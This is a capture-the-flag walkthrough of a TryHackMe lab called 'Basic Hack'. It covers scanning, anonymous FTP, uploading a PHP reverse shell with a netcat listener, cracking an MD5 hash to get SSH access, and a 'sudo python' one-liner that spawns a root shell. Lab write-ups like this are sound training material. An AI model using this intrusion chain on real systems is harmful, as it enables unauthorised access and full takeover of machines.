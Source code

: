 <h1>We start with a scan: **nmap -A -sC ip**
We see an Apache server and an FTP server. It is possible to enter ftp with **user anonymous**, without a password.</h1>

![nmap](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/1.PNG)</h1>

<h1>Going to the Browser *http://ip_target* we see a default Apache page, there is a comment in the source code.</h1>

![browser](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/2.png)

<h1>Using **gobuster**, we discovered a hidden directory, with a file called CALL.txt

![gobuster](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/3.png)

<h1>Now we will go to *FTP*

![ftp, anonymous](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/4.PNG)

With **ls -la** we see that we can * write to the FTP directory * and that it is the same folder where the CALL.txt file is located.
We can use /usr/share/webshells/php/php-reverse-shell.php
We just need to change the ip and port before uploading to FTP

![php-reverse-shell](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/5.PNG)

We will send php-reverse-shell.php to the victim via ftp -> ** put xx/php-reverse-shell.php **

![put_php-reverse-shell](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/6.PNG)

Let's open ¹**nc -lnvp 1234** by listening and go to the ?browser to open ³php-reverse-shell.php

![nc](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/7.PNG)
![browser](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/8.PNG)
![conexão](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/9.PNG)

We found the 1st flag in /home/shrek/user.txt

![flag1](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/10.PNG)

<h2>In / home, we see an important.txt file, pointing to "/.runme.sh"</h2>

![runme.sh](https://github.com/elias403/Write-up-s/blob/main/images/THM%20-%20Basic%20Hack/11.png)

Analyzing ¹hash, it is an MD5, we see that it is possibly the credential for ²SSH and also the secret key
https://www.tunnelsup.com/hash-analyzer/
https://crackstation.net/

![shrek:hash](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/12.PNG)
![ssh](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/13.PNG)

By providing sudo -l, we can run python with sudo without a password. Going to https://gtfobins.github.io/gtfobins/python/#sudo, we see a way to get a privileged shell.

![sudo-l](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/14.PNG)

'''
sudo python -c 'import os; os.system("/bin/sh")'
'''

![root](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/15.PNG)


